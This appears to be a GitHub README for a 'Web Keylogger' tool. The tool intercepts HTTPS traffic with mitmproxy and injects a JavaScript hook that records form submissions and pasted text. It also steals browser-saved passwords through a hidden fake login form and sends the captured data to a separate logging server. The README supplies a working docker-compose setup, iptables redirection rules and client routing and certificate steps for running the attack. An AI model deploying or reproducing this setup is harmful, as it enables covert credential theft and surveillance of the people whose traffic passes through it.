 # Web Keylogger
Persistent injection of hidden form and extraction of user's credentials if stored in the browser capable

## mitmproxy
[mitmproxy][1] is an interactive, SSL/TLS-capable intercepting proxy with a console interface for HTTP/1, HTTP/2, and WebSockets.

![Schema](docs/sslSplit.svg)

## Keylogger
* Web-service logging data from the Hook and visualizing them

### JS Hook
* Intercepts:
  * data submitted to forms,
  * pasted text into webpage
* Extracts user's credential by fakeing login form --- if credentials are stored for the domain, browser (Chrome, Firefox) injects them into hidden form

## docker-compose.yml

```
version: '3.5'

services:
  injector:
    image: injector
    container_name: injector
    build:
      context: ./injector
    volumes:
      - ./data/mitmproxy:/root/.mitmproxy
    ports:
      - 8080:8080
    environment:
      - HOOK_HOST=$HOOK_HOST
      - HOOK_PORT_HTTP=$HOOK_PORT_HTTP
      - HOOK_PORT_HTTPS=$HOOK_PORT_HTTPS
    network_mode: host

  keylogger:
    image: nesatfit/keylogger:latest
    build:
      context: ./keyloggerServer
    container_name: keylogger
    command: --db=mongo --hook_host=$HOOK_HOST --hook_port_http $HOOK_PORT_HTTP --hook_port_https $HOOK_PORT_HTTPS
    ports:
      - 8081:80
      - 8445:443
      - 7000:7000
    restart: unless-stopped
    volumes:
      - ./data/mitmproxy:/data/mitmproxy
      - ./data/haproxy:/data/haproxy
    depends_on:
      - injector
      - mongo
    environment:
      - HOOK_HOST=$HOOK_HOST

  mongo:
    container_name: keylogger_mongo
    image: mongo
    restart: unless-stopped
    volumes:
      - ./data/mongo:/data/db
```

## Server Setup

```bash
# Modify .env and docker-compose.yml variables to reflect your environment
docker-compose up -d

# Setup firewall rules
sysctl -w net.ipv4.ip_forward=1
sysctl -w net.ipv4.conf.all.send_redirects=0
iptables -P FORWARD ACCEPT
iptables -t nat -N MITM
iptables -t nat -A MITM -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A MITM -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

# Enable
iptables -t nat -A PREROUTING -j MITM

# Disable
iptables -t nat -D PREROUTING -j MITM
```

## Client Setup

```bash
# ip route del to default via XXX.XXX.XXX.XXX
# ip route add default via YYY.YYY.YYY.YY

Visit mitm.it in client browser and install certificate (Other)

curl -k https://www.messenger.com
```

## Demonstration
- https://www.youtube.com/watch?v=kO2t3eZgG-8

## Read more

- <https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/>
- <https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/intercepting-ssl-and-https-traffic-with-mitmproxy-and-sslsplit/>

[1]: <https://github.com/mitmproxy/mitmproxy>
